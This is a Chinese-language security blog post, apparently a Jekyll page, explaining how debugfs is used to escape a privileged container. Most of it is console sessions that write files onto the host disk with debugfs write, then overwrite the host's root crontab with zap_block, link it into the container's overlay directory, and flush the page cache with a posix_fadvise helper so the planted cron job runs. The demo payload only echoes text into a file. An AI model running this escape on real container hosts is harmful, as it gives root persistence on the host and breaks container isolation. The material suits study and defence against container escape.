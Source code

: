 ```yaml
---
layout: post
title: debugfs在容器逃逸中的作用
---
```

## 0x00 前言
[红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)中提到，在特权容器、`sys_admin`、`lxcfs`场景下，我们可以通过创建`cgroup devices subsystem`,修改`devices.allow`设置设备的访问权限，创建设备文件目录，并通过debugfs去访问宿主机的文件，达到逃逸的目的；由于`debugfs`不支持很多常用`linux`的命令，如`cp、echo`等，我们不能很方便的写文件到宿主机，虽然实战中我们可以通过cat命令去读取k8s的配置文件，但是如果需要写文件到宿主机，这时候该怎么办呢？
## 0x01 什么是debugfs
- debugfs - ext2/ext3/ext4 file system debugger

debugfs主要用来对ext2/ext3/ext4文件系统进行调试，可以用来恢复文件，更多使用[参考](https://man.archlinux.org/man/debugfs.8.en)  
## 0x02 debugfs中的write和zap_block
`debugfs`的`write`和`zap_block`命令可以写入文件，我们分别来介绍它们。  
write:
```html
write source_file out_file
    Copy the contents of source_file into a newly-created file in the filesystem named out_file.
```
通过`write`命令我们可以将容器中的文件复制到宿主机中。  
演示:  
实验环境：特权ubuntu容器  
```console
#在容器的bash中
root@4da29cbf878a:/tmp$ echo test > /tmp/testfile.txt
debugfs -w /dev/sda1 #读写模式打开/dev/sda1
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /tmp                 
debugfs:  write /tmp/testfile.txt testfile-host.txt #将容器中的/tmp/testfile.txt文件复制到宿主机的tmp目录中
Allocated inode: 787881
debugfs:  cat testfile-host.txt #读取复制的文件成功
test

#回到宿主机
ubuntu1@123:/tmp$ ls -l testfile-host.txt 
-rw-r--r-- 1 root root 5 Jun 17 10:44 testfile-host.txt
```
可以看到，这里是可以读取的，并且文件是正常没有损坏的；如果我们写入一个计划任务，可能就不行了
```console
root@4da29cbf878a:/tmp$ echo '* * * * * echo test1 >> /tmp/testfile1.txt' > root   
root@4da29cbf878a:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /var/spool/cron/crontabs
debugfs:  write /tmp/root root
Allocated inode: 135695
debugfs:  

#回到宿主机
ubuntu1@123:/tmp$ sudo ls -l /var/spool/cron/crontabs/
ls: cannot access '/var/spool/cron/crontabs/root': No such file or directory
total 0
-????????? ? ? ? ?            ? root
```
可以看到，此时的文件是有问题的，这样是不能执行计划任务的,通过查阅资料<https://www.intezer.com/blog/cloud-security/royal-flush-privilege-escalation-vulnerability-in-azure-functions/>  
文章中提到
```
Unfortunately, due to the same constraint we explained with the write cache, 
changes to /dev/sda5 would not propagate to the view of the /etc/passwd file 
until its cached pages are discarded. Meaning, we were only able to overwrite 
files that were not recently loaded from disk to memory, or otherwise wait 
for a system restart for our changes to apply. 
```
由于`crontabs`目录下的文件会不停的从磁盘中加载到内存，我们写的文件是有缓存的，只有等到重启才能够成功，然而实战情况不可能让你重启系统，所以如果使用write去复制文件到宿主机，不能够操作类似于计划任务这种不间断需要从磁盘加载到内存的文件。  
接着学习前面的文章：
```
This hard link still requires root permissions to edit, so we still had to use zap_block
to edit its content. We then used posix_fadvise to instruct the kernel to 
discard pages from the read cache (flush them, hence the name of the technique), 
inspired by a project named pagecache management (source: fadv.c slightly edited by us). 
This caused the kernel to load our changes and we were finally able to propagate them to the Docker host filesystem:
```
文中提到了通过`zap_block`去修改文件，再通过`ln`将修改成功的宿主机文件链接到容器中`upperdir`目录下，再通过 `posix_fadvise`从缓存中丢弃，这样就能够避免缓存的影响:
```console
root@1fae4e0f04c8:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  blocks /var/spool/cron/crontabs/root #获取文件的blocks
2694190
debugfs:  zap_block -o 15 -l 3 -p 0x41 2694190 #将ascii值为41的字符写入到第15个位置，向后替换3位
debugfs:  ln /var/spool/cron/crontabs/root /var/lib/docker/overlay2/fb877e934027ebf552cffe9e7cac5b84512c575c75f5008c3f58ccc277e7c62f/diff/tmp/
debugfs:  q
root@1fae4e0f04c8:/tmp$ ./fav root  #丢弃数据，避免缓存影响
```
这里我们通过`zap_block`修改了blocks为2694190的文件，也就是我们的/var/spool/cron/crontabs/root文件，从15位开始，向后3个长度，替换为ASCII值为41的字符A。修改完了之后再通过posix_fadvise，立即从`page cache`中丢弃数据，这样就不会有页面缓存的问题，编译的fav文件参考<https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c>  
这时我们返回宿主机，查看root用户的计划任务:
```console
ubuntu1@123:~$ sudo cat /var/spool/cron/crontabs/root
* * * * * echo AAAt >> /tmp/root1.txt
```
可以看到，已经成功写入并不受缓存影响。

## 0x03 参考
- https://security.tencent.com/index.php/blog/msg/183
- https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c
- https://www.intezer.com/blog/cloud-security/royal-flush-privilege-escalation-vulnerability-in-azure-functions/
- https://man.archlinux.org/man/debugfs.8.en
